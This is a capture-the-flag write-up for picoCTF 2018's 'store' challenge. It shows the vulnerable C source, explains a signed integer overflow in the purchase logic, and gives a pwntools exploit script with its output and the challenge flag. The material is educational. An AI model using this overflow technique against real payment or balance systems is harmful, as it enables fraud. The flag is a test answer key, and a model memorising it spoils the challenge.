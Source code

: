 # store
General Skills, 350 points

## Description:
> We started a little store, can you buy the flag?

```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){
        
        printf("Welcome to the Store App V1.0\n");
        printf("World's Most Secure Purchasing App\n");

        printf("\n[1] Check Account Balance\n");
        printf("\n[2] Buy Stuff\n");
        printf("\n[3] Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Current Auctions\n");
            printf("[1] I Can't Believe its not a Flag!\n");
            printf("[2] Real Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("Imitation Flags cost 1000 each, how many would you like?\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 1000*number_flags;
                    printf("\nYour total cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour new balance: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds\n");
                    }
                                    
                    
                }
                    
                    
                    
                
            }
            else if(auction_choice == 2){
                printf("A genuine Flag costs 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to purchase");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);
                
                if(bid == 1){
                    
                    if(account_balance > 100000){
                        printf("YOUR FLAG IS:\n");
                        }
                    
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }}

            }
        }
        else{
            con = 1;
        }

    }
    return 0;
}

```

## Solution:

The store sells flags - imitation flags and a genuine flag. We need to buy the genuine flag, but we don't have enough funds. We'll have to trick the store into thinking we do.

What will help us do that is the logic that handles buying imitation flags:
```c
int number_flags = 0;
fflush(stdin);
scanf("%d", &number_flags);
if(number_flags > 0){
    int total_cost = 0;
    total_cost = 1000*number_flags;
    printf("\nYour total cost is: %d\n", total_cost);
    if(total_cost <= account_balance){
        account_balance = account_balance - total_cost;
        printf("\nYour new balance: %d\n\n", account_balance);
    }
```

Notice how all the numbers involved in this flow are signed. So, if we request to buy a large amount of flags, the calculation of `total_cost = 1000*number_flags` will overflow and turn the total cost to a negative number. The number of flags would still be positive though, so we'd execute the logic of `account_balance = account_balance - total_cost` and actually get richer.

For example, if we choose to buy 2222222 flags, our balance after the transaction should be:
```
>>> 1100 - numpy.int32(2222222*1000)
2072746396
```

The script:
```python
from pwn import *

r = remote("2018shell3.picoctf.com", 43581)

MENU_BALANCE = "1"
MENU_BUY = "2"
MENU_EXIT = "3"

FLAG_IMITATION = "1"
FLAG_REAL = "2"

BUY_REAL_FLAG = "1"

def menu(choice):
    r.sendlineafter("Enter a menu selection\n", str(choice))

def check_balance():
    menu(MENU_BALANCE)
    print r.recvregex("Balance: \d+ \n").strip()

def buy_imitation_flag(amount):
    menu(MENU_BUY)
    log.info("Attempting to buy {} imitation flags".format(amount))
    r.sendlineafter("[2] Real Flag\n", FLAG_IMITATION)
    r.sendlineafter("Imitation Flags cost 1000 each, how many would you like?", str(amount))
    print r.recvregex("Your new balance: \d+\n").strip()

def buy_real_flag():
    menu(MENU_BUY)
    log.info("Attempting to buy a real flag")
    r.sendlineafter("[2] Real Flag\n", FLAG_REAL)
    r.sendlineafter("Enter 1 to purchase", BUY_REAL_FLAG) 
    line = r.recvline()
    print line
    if "FLAG" not in line:
        print r.recvline()

def exit():
    menu(MENU_EXIT)

check_balance()
buy_imitation_flag(2222222)
buy_real_flag()
exit()
```

The output:
```console
root@kali:/media/sf_CTFs/pico/store# python exploit.py
[+] Opening connection to 2018shell3.picoctf.com on port 43581: Done
Balance: 1100
[*] Attempting to buy 2222222 imitation flags
Your total cost is: -2072745296

Your new balance: 2072746396
[*] Attempting to buy a real flag
YOUR FLAG IS: picoCTF{numb3r3_4r3nt_s4f3_6bd13a8c}

[*] Closed connection to 2018shell3.picoctf.com port 43581
```

The flag: picoCTF{numb3r3_4r3nt_s4f3_6bd13a8c}
